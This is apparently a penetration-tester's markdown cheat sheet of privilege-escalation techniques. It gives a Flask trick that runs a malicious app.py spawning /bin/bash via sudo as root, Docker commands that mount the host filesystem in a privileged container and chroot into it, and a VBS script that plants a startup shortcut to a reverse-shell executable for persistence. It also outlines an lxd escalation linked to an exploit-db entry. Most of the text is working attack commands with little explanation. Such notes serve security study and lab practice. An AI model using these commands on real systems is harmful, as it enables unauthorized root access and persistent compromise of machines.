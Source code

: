 ## Flask run privesc

1. Create malicious app.py
2. set env variable to /tmp/app.py
3. run

```py
cat app.py 
import os

os.system("/bin/bash")
```

export FLASK_APP=/tmp/app.py

sudo -u root /usr/bin/flask run

## Docker privesc

https://www.hackingarticles.in/docker-privilege-escalation/

docker images 

docker run --rm -it --privileged alpine bash

docker run -v /:/mnt --rm -it alpine chroot /mnt sh

## Sed

sed 's/^/tiny /' wordlist.txt > new_wordlist.txt

## to create starup shortcut vbs script
```
:\PrivEsc>type CreateShortcut.vbs
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save

C:\PrivEsc>cscript C:\PrivEsc\CreateShortcut.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
```

# lxd privesc

https://www.exploit-db.com/exploits/46978

* Download build-alpine in your local machine through the git repository.
* Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.
* Transfer the tar file to the host machine
